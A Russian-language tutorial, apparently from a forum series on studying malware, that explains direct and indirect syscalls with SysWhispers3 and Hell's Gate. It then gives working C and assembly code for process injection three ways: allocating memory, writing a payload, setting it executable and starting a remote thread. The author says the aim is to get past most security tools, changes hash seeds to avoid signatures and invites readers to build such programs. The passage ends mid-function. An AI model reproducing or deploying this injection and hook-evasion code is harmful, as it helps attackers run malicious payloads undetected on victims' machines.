Syscalls-asm.x64.asm
.code
EXTERN SW3_GetSyscallNumber: PROC
EXTERN SW3_GetRandomSyscallAddress: PROC
NtMapViewOfSection PROC
mov [rsp +8], rcx ; Сохранить регистры.
mov [rsp+16], rdx
mov [rsp+24], r8
mov [rsp+32], r9
sub rsp, 28h
mov ecx, 01A80161Bh ; Загрузить хеш функции в ECX.
call SW3_GetRandomSyscallAddress ; Получить смещение системного вызова из другого API.
mov r15, rax ; Сохранить адрес системного вызова {поскольку SW3_GetRandomSyscallAddress вернет адрес инструкции 'syscall' в регистре rax}
mov ecx, 01A80161Bh ; Загрузить хеш функции снова в ECX (необязательно).
call SW3_GetSyscallNumber ; Преобразовать хеш функции в номер системного вызова. {Теперь, eax содержит SSN}
add rsp, 28h
mov rcx, [rsp+8] ; Восстановить регистры.
mov rdx, [rsp+16]
mov r8, [rsp+24]
mov r9, [rsp+32]
mov r10, rcx
jmp r15 ; Перейти к -> Вызов системного вызова. {r15 - это адрес случайной инструкции 'syscall' в ntdll.dll}
NtMapViewOfSection ENDP
endМодуль Syscalls.c
SW3_GetSyscallNumber и SW3_GetRandomSyscallAddress:
Функция SW3_GetSyscallNumber находит системный вызов, а SW3_GetRandomSyscallAddress извлекает адрес инструкции системного вызова случайного системного вызова внутри ntdll.dll, потому что была использована, опция jumper_randomized.
C:
EXTERN_C DWORD SW3_GetSyscallNumber(DWORD FunctionHash)
{
// Ensure SW3_SyscallList is populated.
if (!SW3_PopulateSyscallList()) return -1;
for (DWORD i = 0; i < SW3_SyscallList.Count; i++)
{
if (FunctionHash == SW3_SyscallList.Entries[i].Hash)
{
return i;
}
}
return -1;
}
EXTERN_C PVOID SW3_GetRandomSyscallAddress(DWORD FunctionHash)
{
// Ensure SW3_SyscallList is populated.
if (!SW3_PopulateSyscallList()) return NULL;
DWORD index = ((DWORD) rand()) % SW3_SyscallList.Count;
while (FunctionHash == SW3_SyscallList.Entries[index].Hash){
// Spoofing the syscall return address
index = ((DWORD) rand()) % SW3_SyscallList.Count;
}
return SW3_SyscallList.Entries[index].SyscallAddress;
}Вызов системных вызовов при помощи Hell's Gate
Введение
Помните, что использование прямых системных вызовов (syscalls) — это способ обойти хуки в пользовательском режиме, выполняя сборку инструкций системного вызова вручную.
"Врата Ада" (Hell's Gate) - это другая техника, используемая для выполнения прямых системных вызовов. Читая ntdll.dll, "Врата Ада" могут динамически находить системные вызовы и затем выполнять их из двоичного кода.
Статья о "Вратах Ада" доступна здесь.
Как работают "Врата Ада"
В статье выше мы демонстрировали прямые системные вызовы с помощью SysWhispers. SSN был либо жёстко закодирован, либо найден с использованием метода сортировки по адресу системного вызова, чтобы определить SSN во время выполнения. "Врата Ада", с другой стороны, используют другой подход к поиску SSN.
Подход "Врат Ада" заключается в поиске SSN внутри опкодов перехваченного системного вызова, которые затем вызываются в его функциях сборки.
Разбор "Врат Ада"
Сложность кода требует разбиения объяснения на более мелкие подразделы для более лёгкого понимания.
Структура системного вызова
Код "Врат Ада" начинается с определения структуры VX_TABLE_ENTRY. Эта структура представляет собой системный вызов и содержит адрес, хеш-значение имени системного вызова и SSN. Структура показана ниже.
C:
typedef struct _VX_TABLE_ENTRY {
PVOID pAddress; // Адрес функции системного вызова
DWORD64 dwHash; // Хеш-значение имени системного вызова
WORD wSystemCall; // SSN системного вызова
} VX_TABLE_ENTRY, * PVX_TABLE_ENTRY;Например, NtAllocateVirtualMemory будет представлен как VX_TABLE_ENTRY NtAllocateVirtualMemory.
Таблица системных вызовов
Используемые системные вызовы хранятся внутри другой структуры, VX_TABLE. Поскольку каждый элемент в VX_TABLE является системным вызовом, каждый элемент будет типа VX_TABLE_ENTRY.
C:
typedef struct _VX_TABLE {
VX_TABLE_ENTRY NtAllocateVirtualMemory;
VX_TABLE_ENTRY NtProtectVirtualMemory;
VX_TABLE_ENTRY NtCreateThreadEx;
VX_TABLE_ENTRY NtWaitForSingleObject;
} VX_TABLE, * PVX_TABLE;Главная функция
Главная функция начинается с вызова функции RtlGetThreadEnvironmentBlock, которая используется для получения TEB. Это требуется для получения базового адреса ntdll.dll через PEB (помните, что PEB находится в TEB). Затем экспортный каталог ntdll.dll извлекается с использованием GetImageExportDirectory. Экспортный каталог находится путем анализа заголовков DOS и Nt, как было показано в предыдущих модулях.
Затем для каждого системного вызова элемент dwHash инициализируется (например, NtAllocateVirtualMemory.dwHash) его соответствующим хеш-значением. При каждой инициализации вызывается функция GetVxTableEntry, которая показана ниже. Функция разделена на несколько частей для упрощения процесса объяснения.
GetVxTableEntry - Часть 1
C:
BOOL GetVxTableEntry(PVOID pModuleBase, PIMAGE_EXPORT_DIRECTORY pImageExportDirectory, PVX_TABLE_ENTRY pVxTableEntry) {
PDWORD pdwAddressOfFunctions = (PDWORD)((PBYTE)pModuleBase + pImageExportDirectory->AddressOfFunctions);
PDWORD pdwAddressOfNames = (PDWORD)((PBYTE)pModuleBase + pImageExportDirectory->AddressOfNames);
PWORD pwAddressOfNameOrdinales = (PWORD)((PBYTE)pModuleBase + pImageExportDirectory->AddressOfNameOrdinals);
for (WORD cx = 0; cx < pImageExportDirectory->NumberOfNames; cx++) {
PCHAR pczFunctionName = (PCHAR)((PBYTE)pModuleBase + pdwAddressOfNames[cx]);
PVOID pFunctionAddress = (PBYTE)pModuleBase + pdwAddressOfFunctions[pwAddressOfNameOrdinales[cx]];
if (djb2(pczFunctionName) == pVxTableEntry->dwHash) {
pVxTableEntry->pAddress = pFunctionAddress;
// ...
}
}
return TRUE;
}Первая часть функции ищет значение хеша Djb2, равное хешу системного вызова, pVxTableEntry->dwHash. Как только найдено совпадение, адрес системного вызова будет сохранен в pVxTableEntry->pAddress. Вторая часть функции — это место, где находится трюк "Врат Ада".
GetVxTableEntry - Часть 2
C:
// Быстрый и грязный исправление в случае, если функция была перехвачена
WORD cw = 0;
while (TRUE) {
// проверить, является ли это системным вызовом, в этом случае мы слишком далеко
if (*((PBYTE)pFunctionAddress + cw) == 0x0f && *((PBYTE)pFunctionAddress + cw + 1) == 0x05)
return FALSE;
// проверить, является ли это инструкцией возврата, в этом случае мы, вероятно, тоже слишком далеко
if (*((PBYTE)pFunctionAddress + cw) == 0xc3)
return FALSE;
// Первые опкоды должны быть:
// MOV R10, RCX
// MOV RCX, <системный вызов>
if (*((PBYTE)pFunctionAddress + cw) == 0x4c
&& *((PBYTE)pFunctionAddress + 1 + cw) == 0x8b
&& *((PBYTE)pFunctionAddress + 2 + cw) == 0xd1
&& *((PBYTE)pFunctionAddress + 3 + cw) == 0xb8
&& *((PBYTE)pFunctionAddress + 6 + cw) == 0x00
&& *((PBYTE)pFunctionAddress + 7 + cw) == 0x00) {
BYTE high = *((PBYTE)pFunctionAddress + 5 + cw);
BYTE low = *((PBYTE)pFunctionAddress + 4 + cw);
pVxTableEntry->wSystemCall = (high << 8) | low;
break;
}
cw++;
};Вторая часть начинается с цикла while после поиска адреса системного вызова, pFunctionAddress. Цикл while ищет байты 0x4c, 0x8b, 0xd1, 0xb8, которые являются опкодами для команд mov r10, rcx и mov rcx, ssn, являясь началом неизмененного системного вызова.
В случае, если системный вызов перехвачен, опкоды могут не совпадать из-за добавления хука безопасностными решениями до инструкции системного вызова. Чтобы устранить это, "Врата Ада" пытаются сопоставить опкоды, и если совпадение не найдено, переменная cw инкрементируется, что добавляет к адресу системного вызова на последующей итерации цикла. Этот процесс продолжается, перемещаясь на один байт за раз, пока не достигнуты инструкции mov r10, rcx и mov rcx, ssn. Ниже показано, как "Врата Ада" находят опкоды, переходя через хук.
Проверка границы
Чтобы предотвратить дальний поиск и получение различного SSN для другого системного вызова, в начале цикла while сделаны два условия для проверки инструкций системного вызова и возврата, расположенных в конце системного вызова. Если поиск достигает одной из этих инструкций и опкоды 0x4c, 0x8b, 0xd1, 0xb8 не были определены, поиск SSN не удастся.
C:
// проверить, является ли это системным вызовом, в этом случае мы слишком далеко
if (*((PBYTE)pFunctionAddress + cw) == 0x0f && *((PBYTE)pFunctionAddress + cw + 1) == 0x05)
return FALSE;
// проверить, является ли это инструкцией возврата, в этом случае мы, вероятно, тоже слишком далеко
if (*((PBYTE)pFunctionAddress + cw) == 0xc3)
return FALSE;Вычисление и сохранение SSN
С другой стороны, если найдено успешное совпадение для опкодов, "Врата Ада" будут вычислять номер системного вызова и сохранять его в pVxTableEntry->wSystemCall. Не обязательно понимать вычисление, которое требует знания побитовых операторов, однако те, кто знаком с этим понятием, могут продолжить чтение этого раздела.
Функция сначала использует оператор сдвига влево (<<) для сдвига битов переменной high влево на 8 раз. Затем она использует побитовый оператор OR (|) для сравнения каждого бита первого операнда (являющегося high << 8) с соответствующим битом второго операнда (являющегося low).
C:
pVxTableEntry->wSystemCall = (high << 8) | low;Для лучшего понимания приведен пример использования системного вызова NtProtectVirtualMemory для демонстрации подхода "Врат Ада" к вычислению SSN.
На изображении выше показано, как "Врата Ада" находят опкоды, переходя через хук. Это изображение упрощено до следующего фрагмента:
00007FFCC42C4570 | 4C:8BD1 | mov r10,rcx |
00007FFCC42C4573 | B8 50000000 | mov eax,50 | 50:'P'
00007FFCC42C4582 | 0F05 | syscall |
00007FFCC42C4584 | C3 | ret |
Байты C4C:8BD1 B8 50000000 соответствуют следующим смещениям:
4C имеет смещение 0, 8B имеет смещение 1 и D1 имеет смещение 2, B8 имеет смещение 3, 50 имеет смещение 4, 00 имеет смещение 5 и так далее.
Функция GetVxTableEntry указывает, что переменные high и low имеют смещение 5 и 4 соответственно.
C:
BYTE high = *((PBYTE)pFunctionAddress + 5 + cw); // Смещение 5
BYTE low = *((PBYTE)pFunctionAddress + 4 + cw); // Смещение 4Проверка значения смещения 5 показывает, что это 0x00, в то время как смещение 4 равно 0x50. Это означает, что значение high равно 0x00, а значение low равно 0x50. Таким образом, SSN равно (0x00 << 8) | 0x50.
Результат побитовой операции совпадает с номером SSN системного вызова NtProtectVirtualMemory, который равен 50 в шестнадцатеричной системе.
Вызов системного вызова
Теперь, когда "Врата Ада" полностью инициализировали структуру VX_TABLE_ENTRY целевого системного вызова, они могут вызвать его. Для этого "Врата Ада" используют две функции сборки 64-бит: HellsGate и HellDescent, показанные в файле hellsgate.asm.
Код:
data
wSystemCall DWORD 000h ; это глобальная переменная, используемая для сохранения SSN системного вызова
.code
HellsGate PROC
mov wSystemCall, 000h
mov wSystemCall, ecx ; обновление переменной 'wSystemCall' входным аргументом (значением регистра ecx)
ret
HellsGate ENDP
HellDescent PROC
mov r10, rcx
mov eax, wSystemCall ; `wSystemCall` - это SSN вызываемого системного вызова
syscall
ret
HellDescent ENDP
endЧтобы вызвать системный вызов, сначала нужно передать номер системного вызова функции HellsGate. Это сохраняет его в глобальной переменной wSystemCall для будущего использования. Затем используется HellDescent для вызова системного вызова, передавая параметры системного вызова. Это демонстрируется в функции Payload.
Заключение
Было показано, что обход хуков в пользовательском режиме возможен с помощью прямых системных вызовов, инструмента SysWhispers и техники "Врата Ада".
В следующей статьи ранее реализованные техники инъекции процессов будут изменены для использования системных вызовов вместо WinAPI.
В следующей статьи будет подробный разбор использования SysWhispers3 и HellsGate.
Предельная техника-2. Практика. Реализуем техники инъекции через сисколы
В прошлой статье:Предельная техника. Разборка с сисколами | Цикл статей "Изучение вредоносных программ" мы разобрали теорию.
Давайте теперь переделаем техники:


С использованием косвенного вызова сискола, это поможет обойти большинство средств защиты.)
Также это может послужить примером, как делать такие программы и вы можете уже сами реализовывать такие штуки в своих программах.)))
Итак начнем:
1)Переписываем технику Изучаем технику Thread Hijacking | Цикл статей "Изучение вредоносных программ"
Введение
Классическая техника инъекции процессов, рассмотренная ранее, будет реализована с использованием прямых системных вызовов, заменяя WinAPI на их эквивалент в системных вызовах.
VirtualAlloc/Ex заменяется на NtAllocateVirtualMemory
VirtualProtect/Ex заменяется на NtProtectVirtualMemory
WriteProcessMemory заменяется на NtWriteVirtualMemory
CreateThread/RemoteThread заменяется на NtCreateThreadEx
Требуемые системные вызовы
В этом разделе будут рассмотрены требуемые системные вызовы и их параметры.
NtAllocateVirtualMemory
Это результат системного вызова из WinAPI-функций VirtualAlloc и VirtualAllocEx.
NtAllocateVirtualMemory показан ниже.
C:
NTSTATUS NtAllocateVirtualMemory(
IN HANDLE ProcessHandle, // Дескриптор процесса, в котором необходимо выделить память
IN OUT PVOID *BaseAddress, // Возвращаемый базовый адрес выделенной памяти
IN ULONG_PTR ZeroBits, // Всегда установите в '0'
IN OUT PSIZE_T RegionSize, // Размер памяти для выделения
IN ULONG AllocationType, // MEM_COMMIT | MEM_RESERVE
IN ULONG Protect // Защита страницы
);NtAllocateVirtualMemory аналогичен WinAPI функции VirtualAllocEx. Однако он отличается тем, что параметры RegionSize и BaseAddress передаются по ссылке с использованием оператора адреса (&).
ZeroBits - это новый введенный параметр, который определяется как количество старших битов адреса, которые должны быть равны нулю в базовом адресе обзора секции. Этот параметр всегда устанавливается на ноль.
Параметр RegionSize помечен как входной и выходной параметр. Это связано с тем, что значение RegionSize может изменяться в зависимости от того, что было фактически выделено. Microsoft утверждает, что начальное значение RegionSize указывает размер в байтах области, который округляется до следующей границы размера страницы хоста. Это означает, что NtAllocateVirtualMemory округляет до ближайшего кратного размера страницы, который составляет 4096 байт. Например, если RegionSize установлен на 5000 байт, он округлит его до 8192, и RegionSize вернет значение, которое было выделено, то есть 8192 в этом примере.
Как уже упоминалось в предыдущих статьях, все системные вызовы возвращают NTSTATUS. Если выполнение успешно, он устанавливается в STATUS_SUCCESS (0). В противном случае, если системный вызов не удается, возвращается ненулевое значение.
NtProtectVirtualMemory
Это результат системного вызова из WinAPI-функций VirtualProtect и VirtualProtectEx. NtProtectVirtualMemory показан ниже.
C:
NTSTATUS NtProtectVirtualMemory(
IN HANDLE ProcessHandle, // Дескриптор процесса, защита памяти которого должна быть изменена
IN OUT PVOID *BaseAddress, // Указатель на базовый адрес для защиты
IN OUT PULONG NumberOfBytesToProtect, // Указатель на размер области для защиты
IN ULONG NewAccessProtection, // Новая устанавливаемая защита памяти
OUT PULONG OldAccessProtection // Указатель на переменную, которая получает предыдущую защиту доступа
);Оба параметра BaseAddress и NumberOfBytesToProtect передаются по ссылке с использованием оператора "адрес".
Параметр NumberOfBytesToProtect ведет себя аналогично параметру RegionSize в NtAllocateVirtualMemory, округляя количество байтов до ближайшего кратного размера страницы.
NtWriteVirtualMemory
Это результат системного вызова из WinAPI-функции WriteProcessMemory. NtWriteVirtualMemory показан ниже.
C:
NTSTATUS NtWriteVirtualMemory(
IN HANDLE ProcessHandle, // Дескриптор процесса, память которого должна быть записана
IN PVOID BaseAddress, // Базовый адрес в указанном процессе, в который записываются данные
IN PVOID Buffer, // Данные для записи
IN ULONG NumberOfBytesToWrite, // Количество байтов для записи
OUT PULONG NumberOfBytesWritten // Указатель на переменную, которая получает количество фактически записанных байтов
);Параметры NtWriteVirtualMemory такие же, как и у его версии WinAPI, WriteProcessMemory.
NtCreateThreadEx
Это результат системного вызова из WinAPI-функций CreateThread, CreateRemoteThread и CreateRemoteThreadEx. NtCreateThreadEx показан ниже.
C:
NTSTATUS NtCreateThreadEx(
OUT PHANDLE ThreadHandle, // Указатель на переменную HANDLE, которая получает дескриптор созданного потока
IN ACCESS_MASK DesiredAccess, // Права доступа к потоку (устанавливаются в THREAD_ALL_ACCESS - 0x1FFFFF)
IN POBJECT_ATTRIBUTES ObjectAttributes, // Указатель на структуру OBJECT_ATTRIBUTES (устанавливается в NULL)
IN HANDLE ProcessHandle, // Дескриптор процесса, в котором должен быть создан поток
IN PVOID StartRoutine, // Базовый адрес определяемой приложением функции, которая будет выполняться
IN PVOID Argument, // Указатель на переменную, которая передается функции потока (устанавливается в NULL)
IN ULONG CreateFlags, // Флаги, которые управляют созданием потока (устанавливаются в NULL)
IN SIZE_T ZeroBits, // Устанавливаются в NULL
IN SIZE_T StackSize, // Устанавливаются в NULL
IN SIZE_T MaximumStackSize, // Устанавливаются в NULL
IN PPS_ATTRIBUTE_LIST AttributeList // Указатель на структуру PS_ATTRIBUTE_LIST (устанавливаются в NULL)
);NtCreateThreadEx похож на WinAPI функцию CreateRemoteThreadEx. NtCreateThreadEx - это очень гибкий системный вызов и может позволить сложное управление созданными потоками. Однако для наших целей большинство его параметров будут установлены на NULL.
Реализация с использованием GetProcAddress и GetModuleHandle
Вызов системных вызовов будет выполнен с использованием нескольких методов, начиная с обычно используемыми WinAPI-функциями GetProcAddress и GetModuleHandle. Этот метод прост и был использован многократно для динамического вызова системных вызовов. Однако, как уже обсуждалось ранее, этот метод не обходит пользовательские хуки, установленные на системные вызовы.
В предоставленном создается структура Syscall и инициализируется с помощью InitializeSyscallStruct, которая содержит адреса используемых системных вызовов, как показано ниже.
C:
// Структура, которая хранит используемые системные вызовы
typedef struct _Syscall {
fnNtAllocateVirtualMemory pNtAllocateVirtualMemory;
fnNtProtectVirtualMemory pNtProtectVirtualMemory;
fnNtWriteVirtualMemory pNtWriteVirtualMemory;
fnNtCreateThreadEx pNtCreateThreadEx;
} Syscall, *PSyscall;
// Функция, используемая для заполнения входной структуры 'St'
BOOL InitializeSyscallStruct (OUT PSyscall St) {
HMODULE hNtdll = GetModuleHandle(L"NTDLL.DLL");
if (!hNtdll) {
printf("[!] GetModuleHandle Failed With Error : %d \n", GetLastError());
return FALSE;
}
St->pNtAllocateVirtualMemory = (fnNtAllocateVirtualMemory)GetProcAddress(hNtdll, "NtAllocateVirtualMemory");
St->pNtProtectVirtualMemory = (fnNtProtectVirtualMemory)GetProcAddress(hNtdll, "NtProtectVirtualMemory");
St->pNtWriteVirtualMemory = (fnNtWriteVirtualMemory)GetProcAddress(hNtdll, "NtWriteVirtualMemory");
St->pNtCreateThreadEx = (fnNtCreateThreadEx)GetProcAddress(hNtdll, "NtCreateThreadEx");
// проверка, пропустил ли GetProcAddress системный вызов
if (St->pNtAllocateVirtualMemory == NULL || St->pNtProtectVirtualMemory == NULL || St->pNtWriteVirtualMemory == NULL || St->pNtCreateThreadEx == NULL)
return FALSE;
else
return TRUE;
}Далее функция ClassicInjectionViaSyscalls будет ответственна за выполнение полезной нагрузки, pPayload, в целевом процессе, hProcess. Функция возвращает FALSE, если не удалось выполнить полезную нагрузку, и TRUE, если удалось. Кроме того, функция может использоваться для инъекции как в локальные, так и в удаленные процессы, в зависимости от значения hProcess.
C:
BOOL ClassicInjectionViaSyscalls(IN HANDLE hProcess, IN PVOID pPayload, IN SIZE_T sPayloadSize) {
Syscall St = { 0 };
NTSTATUS STATUS = 0x00;
PVOID pAddress = NULL;
ULONG uOldProtection = NULL;
SIZE_T sSize = sPayloadSize,
sNumberOfBytesWritten = NULL;
HANDLE hThread = NULL;
// Инициализация структуры 'St' для получения адресов системных вызовов
if (!InitializeSyscallStruct(&St)){
printf("[!] Could Not Initialize The Syscall Struct \n");
return FALSE;
}
//--------------------------------------------------------------------------
// Выделение памяти
if ((STATUS = St.pNtAllocateVirtualMemory(hProcess, &pAddress, 0, &sSize, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE)) != 0) {
printf("[!] NtAllocateVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
return FALSE;
}
printf("[+] Allocated Address At : 0x%p Of Size : %d \n", pAddress, sSize);
printf("[#] Press <Enter> To Write The Payload ... ");
getchar();
//--------------------------------------------------------------------------
// Запись полезной нагрузки
printf("\t[i] Writing Payload Of Size %d ... ", sPayloadSize);
if ((STATUS = St.pNtWriteVirtualMemory(hProcess, pAddress, pPayload, sPayloadSize, &sNumberOfBytesWritten)) != 0 || sNumberOfBytesWritten != sPayloadSize) {
printf("[!] pNtWriteVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
printf("[i] Bytes Written : %d of %d \n", sNumberOfBytesWritten, sPayloadSize);
return FALSE;
}
printf("[+] DONE \n");
//--------------------------------------------------------------------------
// Изменение разрешений памяти на RWX
if ((STATUS = St.pNtProtectVirtualMemory(hProcess, &pAddress, &sPayloadSize, PAGE_EXECUTE_READWRITE, &uOldProtection)) != 0) {
printf("[!] NtProtectVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
return FALSE;
}
//--------------------------------------------------------------------------
// Выполнение полезной нагрузки через поток
printf("[#] Press <Enter> To Run The Payload ... ");
getchar();
printf("\t[i] Running Thread Of Entry 0x%p ... ", pAddress);
if ((STATUS = St.pNtCreateThreadEx(&hThread, THREAD_ALL_ACCESS, NULL, hProcess, pAddress, NULL, NULL, NULL, NULL, NULL, NULL)) != 0) {
printf("[!] NtCreateThreadEx Failed With Error : 0x%0.8X \n", STATUS);
return FALSE;
}
printf("[+] DONE \n");
printf("\t[+] Thread Created With Id : %d \n", GetThreadId(hThread));
return TRUE;
}Размер полезной нагрузки и округление в большую сторону
Помните, что NtAllocateVirtualMemory округляет значение RegionSize до кратного 4096. Из-за округления размера необходимо быть осторожным при использовании одной и той же переменной размера полезной нагрузки при выделении памяти и записи в память, так как это может привести к записи большего количества байтов, чем предполагалось. Именно поэтому в вышеприведенном коде используются разные переменные размера для NtAllocateVirtualMemory и NtWriteVirtualMemory.
Проблема демонстрируется в приведенном ниже фрагменте кода.
C:
// sPayloadSize - это размер полезной нагрузки (272 байта)
// Выделение памяти
if ((STATUS = St.pNtAllocateVirtualMemory(hProcess, &pAddress, 0, &sPayloadSize, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE)) != 0) {
return FALSE;
}
// значение sPayloadSize теперь равно 4096
// Запись полезной нагрузки с sPayloadSize (NumberOfBytesToWrite) равным 4096 вместо исходного размера
if ((STATUS = St.pNtWriteVirtualMemory(hProcess, pAddress, pPayload, sPayloadSize, &sNumberOfBytesWritten)) != 0) {
return FALSE;
}Реализация с использованием SysWhispers3
Реализация здесь использует SysWhispers3 для обхода пользовательских хуков через косвенные системные вызовы. Следующая команда используется для генерации необходимых файлов для этой реализации.
Код:
python syswhispers.py -a x64 -c msvc -m jumper_randomized -f NtAllocateVirtualMemory,NtProtectVirtualMemory,NtWriteVirtualMemory,NtCreateThreadEx -o SysWhispers -vСоздаются три файла: SysWhispers.h, SysWhispers.c и SysWhispers-asm.x64.asm.
Следующий шаг - импортировать эти файлы в Visual Studio, как указано в Readme SysWhisper.
Шаги демонстрируются ниже.
Шаг 1 Скопируйте сгенерированные файлы в папку проекта, затем добавьте их в проект Visual Studio как существующие элементы.
Шаг 2 Включите MASM в проекте, чтобы разрешить компиляцию сгенерированного кода на ассемблере.
Шаг 3 Измените свойства, чтобы установить файл ASM на компиляцию с использованием Microsoft Macro Assembler.
Шаг 4 Теперь проект Visual Studio может быть скомпилирован. Функция ClassicInjectionViaSyscalls показана ниже.
C:
BOOL ClassicInjectionViaSyscalls(IN HANDLE hProcess, IN PVOID pPayload, IN SIZE_T sPayloadSize) {
NTSTATUS STATUS = 0x00;
PVOID pAddress = NULL;
ULONG uOldProtection = NULL;
SIZE_T sSize = sPayloadSize,
sNumberOfBytesWritten = NULL;
HANDLE hThread = NULL;
// Allocating memory
if ((STATUS = NtAllocateVirtualMemory(hProcess, &pAddress, 0, &sSize, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE)) != 0) {
printf("[!] NtAllocateVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
return FALSE;
}
printf("[+] Allocated Address At : 0x%p Of Size : %d \n", pAddress, sSize);
printf("[#] Press <Enter> To Write The Payload ... ");
getchar();
//--------------------------------------------------------------------------
// Writing the payload
printf("\t[i] Writing Payload Of Size %d ... ", sPayloadSize);
if ((STATUS = NtWriteVirtualMemory(hProcess, pAddress, pPayload, sPayloadSize, &sNumberOfBytesWritten)) != 0 || sNumberOfBytesWritten != sPayloadSize) {
printf("[!] pNtWriteVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
printf("[i] Bytes Written : %d of %d \n", sNumberOfBytesWritten, sPayloadSize);
return FALSE;
}
printf("[+] DONE \n");
//--------------------------------------------------------------------------
// Changing the memory's permissions to RWX
if ((STATUS = NtProtectVirtualMemory(hProcess, &pAddress, &sPayloadSize, PAGE_EXECUTE_READWRITE, &uOldProtection)) != 0) {
printf("[!] NtProtectVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
return FALSE;
}
//--------------------------------------------------------------------------
// Executing the payload via thread
printf("[#] Press <Enter> To Run The Payload ... ");
getchar();
printf("\t[i] Running Thread Of Entry 0x%p ... ", pAddress);
if ((STATUS = NtCreateThreadEx(&hThread, THREAD_ALL_ACCESS, NULL, hProcess, pAddress, NULL, NULL, NULL, NULL, NULL, NULL)) != 0) {
printf("[!] NtCreateThreadEx Failed With Error : 0x%0.8X \n", STATUS);
return FALSE;
}
printf("[+] DONE \n");
printf("\t[+] Thread Created With Id : %d \n", GetThreadId(hThread));
return TRUE;
}Реализация с использованием Hell's Gate
Последняя реализация для этого модуля использует Hell's Gate. Сначала убедитесь, что те же шаги, которые были выполнены для настройки проекта Visual Studio с SysWhispers3, выполняются и здесь. В частности, включение MASM и изменение свойств для установки файла ASM на компиляцию с использованием Microsoft Macro Assembler.
Изменение функции полезной нагрузки
Необходимо внести несколько изменений в код Hell's Gate. Сначала функция Payload должна быть заменена функцией ClassicInjectionViaSyscalls.
C:
BOOL ClassicInjectionViaSyscalls(IN PVX_TABLE pVxTable, IN HANDLE hProcess, IN PBYTE pPayload, IN SIZE_T sPayloadSize) {
NTSTATUS STATUS = 0x00;
PVOID pAddress = NULL;
ULONG uOldProtection = NULL;
SIZE_T sSize = sPayloadSize,
sNumberOfBytesWritten = NULL;
HANDLE hThread = NULL;
// Allocating memory
HellsGate(pVxTable->NtAllocateVirtualMemory.wSystemCall);
if ((STATUS = HellDescent(hProcess, &pAddress, 0, &sSize, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE)) != 0) {
printf("[!] NtAllocateVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
return FALSE;
}
printf("[+] Allocated Address At : 0x%p Of Size : %d \n", pAddress, sSize);
printf("[#] Press <Enter> To Write The Payload ... ");
getchar();
//--------------------------------------------------------------------------
// Writing the payload
printf("\t[i] Writing Payload Of Size %d ... ", sPayloadSize);
HellsGate(pVxTable->NtWriteVirtualMemory.wSystemCall);
if ((STATUS = HellDescent(hProcess, pAddress, pPayload, sPayloadSize, &sNumberOfBytesWritten)) != 0 || sNumberOfBytesWritten != sPayloadSize) {
printf("[!] pNtWriteVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
printf("[i] Bytes Written : %d of %d \n", sNumberOfBytesWritten, sPayloadSize);
return FALSE;
}
printf("[+] DONE \n");
//--------------------------------------------------------------------------
// Changing the memory's permissions to RWX
HellsGate(pVxTable->NtProtectVirtualMemory.wSystemCall);
if ((STATUS = HellDescent(hProcess, &pAddress, &sPayloadSize, PAGE_EXECUTE_READWRITE, &uOldProtection)) != 0) {
printf("[!] NtProtectVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
return FALSE;
}
//--------------------------------------------------------------------------
// Executing the payload via thread
printf("[#] Press <Enter> To Run The Payload ... ");
getchar();
printf("\t[i] Running Thread Of Entry 0x%p ... ", pAddress);
HellsGate(pVxTable->NtCreateThreadEx.wSystemCall);
if ((STATUS = HellDescent(&hThread, THREAD_ALL_ACCESS, NULL, hProcess, pAddress, NULL, NULL, NULL, NULL, NULL, NULL)) != 0) {
printf("[!] NtCreateThreadEx Failed With Error : 0x%0.8X \n", STATUS);
return FALSE;
}
printf("[+] DONE \n");
printf("\t[+] Thread Created With Id : %d \n", GetThreadId(hThread));
return TRUE;
}Обновление структуры VX_TABLE
Далее необходимо обновить структуру VX_TABLE с именами системных вызовов, используемых в этом модуле, как показано ниже.
C:
typedef struct _VX_TABLE {
VX_TABLE_ENTRY NtAllocateVirtualMemory; // Элемент таблицы для системного вызова
VX_TABLE_ENTRY NtWriteVirtualMemory; // Элемент таблицы для системного вызова
VX_TABLE_ENTRY NtProtectVirtualMemory; // Элемент таблицы для системного вызова
VX_TABLE_ENTRY NtCreateThreadEx; // Элемент таблицы для системного вызова
} VX_TABLE, * PVX_TABLE;Обновление значения Seed Value
Будет использовано новое значение Seed Value для замены старого, чтобы изменить хэш-значения системных вызовов. Функция хэширования djb2 обновляется новым значением Seed Value ниже.
C:
DWORD64 djb2(PBYTE str) {
DWORD64 dwHash = 0x77347734DEADBEEF; // Старое значение: 0x7734773477347734
INT c;
while (c = *str++)
dwHash = ((dwHash << 0x5) + dwHash) + c;
return dwHash;
}Теперь необходимо сгенерировать хэш-значений djb2 для функций (Напишите консольную программу например):
Код:
printf("#define %s%s 0x%p \n", "NtAllocateVirtualMemory", "_djb2", (DWORD64)djb2("NtAllocateVirtualMemory"));
printf("#define %s%s 0x%p \n", "NtWriteVirtualMemory", "_djb2", djb2("NtWriteVirtualMemory"));
printf("#define %s%s 0x%p \n", "NtProtectVirtualMemory", "_djb2", djb2("NtProtectVirtualMemory"));
printf("#define %s%s 0x%p \n", "NtCreateThreadEx", "_djb2", djb2("NtCreateThreadEx"));Как только значения сгенерированы, добавьте их в начало проекта Hell's Gate.
Код:
#define NtAllocateVirtualMemory_djb2 0x7B2D1D431C81F5F6
#define NtWriteVirtualMemory_djb2 0x54AEE238645CCA7C
#define NtProtectVirtualMemory_djb2 0xA0DCC2851566E832
#define NtCreateThreadEx_djb2 0x2786FB7E75145F1AОбновление главной функции
Главная функция (wmain) должна быть обновлена (На код ниже), чтобы вызывать ClassicInjectionViaSyscalls вместо payload function. Функция будет использовать выше сгенерированные хэши, как показано ниже.
C:
INT main() {
// Getting the PEB structure
PTEB pCurrentTeb = RtlGetThreadEnvironmentBlock();
PPEB pCurrentPeb = pCurrentTeb->ProcessEnvironmentBlock;
if (!pCurrentPeb || !pCurrentTeb || pCurrentPeb->OSMajorVersion != 0xA)
return 0x1;
// Getting the NTDLL module
